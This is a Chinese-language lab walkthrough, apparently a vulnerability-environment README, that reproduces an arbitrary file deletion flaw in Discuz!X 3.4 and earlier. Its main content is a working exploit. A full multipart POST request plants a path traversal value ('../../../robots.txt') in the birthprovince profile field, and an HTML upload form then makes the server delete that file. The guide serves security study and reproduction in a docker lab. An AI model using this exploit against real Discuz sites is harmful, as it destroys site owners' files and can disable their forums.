 # Discuz!X ≤3.4 任意文件删除漏洞

影响版本：Discuz!X ≤3.4

漏洞详情：https://lorexxar.cn/2017/09/30/dz-delete/

# 启动环境

执行下列命令部署 Discuz!X 安装环境

```
docker-compose up -d
```

安装时，只用修改数据库地址为`db`，其他保持默认即可：

![](1.png)

# 漏洞复现

访问`http://your-ip/robots.txt`可见robots.txt是存在的：

![](2.png)

注册用户后，在个人设置页面找到自己的formhash：

![](4.png)

带上自己的Cookie、formhash发送如下数据包：

```
POST /home.php?mod=spacecp&ac=profile&op=base HTTP/1.1
Host: localhost
Content-Length: 367
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryPFvXyxL45f34L12s
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.79 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,en;q=0.6
Cookie: [your cookie]
Connection: close

------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="formhash"

[your formhash]
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="birthprovince"

../../../robots.txt
------WebKitFormBoundaryPFvXyxL45f34L12s
Content-Disposition: form-data; name="profilesubmit"

1
------WebKitFormBoundaryPFvXyxL45f34L12s--

```

提交成功之后，用户资料修改页面上的出生地就会显示成下图所示的状态：

![](5.png)

说明我们的脏数据已经进入数据库了。

然后，新建一个`upload.html`，代码如下，将其中的`[your-ip]`改成discuz的域名，`[form-hash]`改成你的formhash：

```
<body>
    <form action="http://[your-ip]/home.php?mod=spacecp&ac=profile&op=base&profilesubmit=1&formhash=[form-hash]" method="post" enctype="multipart/form-data">
        <input type="file" name="birthprovince" />
        <input type="submit" value="upload" />
    </form>
</body>
```

用浏览器打开该页面，上传一个正常图片。此时脏数据应该已被提取出，漏洞已经利用结束。

再次访问`http://your-ip/robots.txt`，发现文件成功被删除：

![](6.png)